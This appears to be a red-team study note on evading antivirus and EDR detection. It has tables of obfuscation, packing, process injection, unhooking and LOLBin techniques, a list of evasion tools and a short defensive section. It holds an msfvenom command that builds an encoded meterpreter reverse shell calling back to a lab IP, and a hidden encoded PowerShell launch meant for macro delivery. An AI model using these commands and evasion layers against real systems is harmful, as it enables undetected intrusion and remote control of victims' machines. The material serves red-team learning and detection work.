 **Antivirus evasion** refers to the techniques used to **bypass detection by antivirus (AV), EDR, and other security solutions** when delivering or executing malicious payloads. These methods are common in **red teaming**, **malware development**, and **adversary emulation**.

> 🧠 The goal is not to disable AV, but to **avoid detection long enough to execute the payload**.

---

## 🎯 Why It Matters

- AV engines use **signature, heuristic, and behavioral detection**
- Default payloads (e.g., from `msfvenom`) are easily flagged
- Evasion is key in **post-exploitation**, **malware staging**, and **stealth persistence**

---

## 🧱 Detection Types & Evasion Goals

| Detection Type       | Description                          | Evasion Strategy                        |
|----------------------|--------------------------------------|------------------------------------------|
| **Signature-based**   | Matches byte patterns (hashes, strings) | Obfuscate code, change payload structure |
| **Heuristic-based**   | Suspicious patterns or behaviors     | Break known patterns, add junk logic     |
| **Behavioral (EDR)**  | Monitors API calls, memory ops, flow | Delay execution, use LOLBins, evade memory inspection |

---

## 🛠 Static Evasion Techniques

| Technique             | Description                                |
|-----------------------|--------------------------------------------|
| **Encoding/Obfuscation** | Use `msfvenom` encoders or custom encoders |
| **Packing**           | Compress/encrypt with UPX or custom packers|
| **String Encryption** | Encode suspicious strings (e.g., base64)   |
| **Custom Compilation**| Recompile payload with minor changes       |
| **Change Metadata**   | Modify filename, icon, PE headers          |
| **Split Logic**       | Break payload into multiple smaller stages |

### 🔧 Example with `msfvenom` + encoding:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f exe -e x86/shikata_ga_nai -i 5 -o evade.exe
```

## 🔬 Behavioral Evasion Techniques

|Technique|Description|
|---|---|
|**Process Injection**|Inject shellcode into legit processes|
|**Memory Unhooking**|Restore/patch system functions to bypass EDR|
|**Parent Spoofing**|Spawn from `explorer.exe`, `svchost.exe`, etc|
|**Delay Execution**|Sleep or loop before payload runs|
|**Indirect Syscalls**|Avoid detection by using syscall stubs|
|**LOLBins**|Use `mshta`, `rundll32`, `regsvr32`, etc.|

---

## 🧩 Common Tools for Evasion

|Tool / Framework|Purpose|
|---|---|
|**Veil Framework**|Payload obfuscation for AV evasion|
|**Shellter**|Inject shellcode into clean PE files|
|**Nimcrypt**|Create payloads using Nim for AV evasion|
|**Donut**|Convert .NET DLLs/EXEs into shellcode|
|**CactusTorch**|Reflective DLL injection via macros|
|**FUDcry**|Crypter that obfuscates known payloads|

---

## 🧠 Best Practices

- Use **custom payloads**, not off-the-shelf
- Combine **multiple evasion layers** (e.g., obfuscation + LOLBin + injection)
- Test in **realistic EDR environments** (e.g., Defender, CrowdStrike)
- Monitor with **Sysmon** and **procmon** to understand detection triggers
- Use **encryption and staging** for payload delivery

---

## 📘 Example: Evasion via PowerShell LOLBin

```
powershell -nop -w hidden -enc <base64-encoded-payload>
```

- Avoids writing payload to disk
- Encoded and executed entirely in memory
- Triggered via Office macro or HTA

## 🧪 Testing Efficacy

|Service / Tool|Purpose|
|---|---|
|**VirusTotal**|Multi-engine AV scanning (non-private!)|
|**Any.Run**|Online sandbox with AV/EDR simulation|
|**CAPE Sandbox**|Analyze dropped files, processes, and registry keys|
|**Sysmon + ELK**|Detect suspicious execution flows|

> ⚠️ Never upload red team payloads to VirusTotal unless it’s scrubbed of unique signatures.

---

## 🔐 Defensive Recommendations

- Monitor LOLBins and encoded PowerShell
- Detect parent/child anomalies (e.g., `WINWORD → powershell`)
- Enable advanced logging (Sysmon, command-line auditing)
- Block unsigned macros and scripting tools (AppLocker/WDAC)
- Use EDR/XDR with behavioral detection, not just AV

---

## 🔗 Related Topics

- [[Payload Creation with msfvenom]]
- [[EDR & Threat Detection]]
- [[Post-Exploitation]]
- [[Persistence Techniques]]
- [[Metasploit]]

---

## 🏷 Suggested Tags

#antivirus_evasion #red_team #post_exploitation #obfuscation #bypass #payloads #defense_evasion #mitre_attack

---

## ✅ To Do

-  Build and encode payloads using multiple encoders
-  Simulate evasion via PowerShell and measure detection
-  Test payloads in EDR/AV-equipped VMs
-  Document which evasions are blocked by each solution
